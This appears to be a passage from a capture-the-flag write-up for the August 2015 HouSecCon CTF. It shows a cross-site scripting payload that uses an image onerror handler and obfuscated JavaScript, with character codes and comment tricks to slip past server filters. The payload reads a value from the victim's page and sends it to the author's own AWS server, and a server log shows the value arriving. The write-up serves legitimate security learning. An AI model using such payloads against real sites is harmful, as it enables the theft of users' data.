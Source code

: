 Sending this gives a gorgeous non-flag:

```
You are not authorized to view messages from CTARoot.
```

I must admit. I was a bit stumped for a minute, but one must move forward. I made a guess that the `ctaroot` interface would be the same as mine and that the DOM would also be similar.

The next idea would be to try and pull the IP from the `ctaroot` DOM and then ship that instead of the cookie. The last thing would be to send this to an AWS instance instead of to `send`. Ultimately, this worked!

```html
<img/src="./"onerror="BELOW JAVASCRIPT"/>
```

```javascript
// Create a new form with the IP from the DOM
// Submit the form to a known AWS instance
var/**/form/**/=/**/document.createElement('form');
form.setAttribute('method','get');
form.setAttribute('action','http://my.aws.instance/send');
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','to');
// 'value' is stripped by server
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),'admin');
form.appendChild(hiddenField);
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','body');
// 'value' is stripped by server
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),document.getElementById(String.fromCharCode(105,112))[String.fromCharCode(118,97,108,117,101)]);
// 'ip' is stripped by server
// 'value' is stripped by server

form.appendChild(hiddenField);
document.body.appendChild(form);
form.submit();
```

```
# On the AWS instance
python -m SimpleHTTPServer 80

# Time passes
65.128.52.100 - - [31/Aug/2015 20:40:24] "GET /send?to=admin&body=+10.201.40.147 HTTP/1.1" 404 -
``` 

Submitting this IP, finishes the August edition of HouSecCon CTF.

Here's to hoping for binary exploitation for the September edition ;-)
